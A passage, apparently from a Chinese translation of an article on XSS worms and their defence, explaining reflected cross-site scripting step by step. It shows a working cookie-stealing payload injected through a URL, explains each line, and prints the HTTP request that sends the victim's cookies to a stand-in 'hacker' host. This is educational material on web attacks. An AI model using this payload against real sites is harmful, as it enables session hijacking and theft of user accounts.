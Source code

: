 ![image](../img/xss-蠕虫-病毒-即将发生的威胁与最好的防御/Image_003.jpg)

图 3，原来的搜索词将被替换为 HTML/ JavaScript 代码。

图 4，夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代码。

此时，黑客将会继续修改这个 URL，包含更复杂的 XSS 攻击来利用用户。一个典型的例子是一个简单的 cookie 盗 窃的攻击。

Example 2.

```
“><SCRIPT>var+img=new+Image();img.src=”http://hacker/”%20+%20document.cookie;</SCRIPT>
```

前面的 JavaScript 代码创建一个图像 DOM（文档对象模型）对象。

```
var img=new Image();
```

因为 JavaScript 代码在“[http://victim/](http://victim/)”上下文中执行，所以它可以访问 cookie 数据。

```
document.cookie;
```

图形对象然后指派一个外域的 URL 发送带有 Web 浏览器的 Cookie 字符串的数据到“[http://hacker/](http://hacker/)”。

```
img.src=”http://hacker/” + document.cookie;
```

下面是一个例子，是一个被发送的 HTTP 请求。

Example 3.

```
GET http://hacker/path/_web_browser_cookie_data HTTP/1.1
Host: host
User-Agent: Firefox/1.5.0.1
Content-length: 0
```
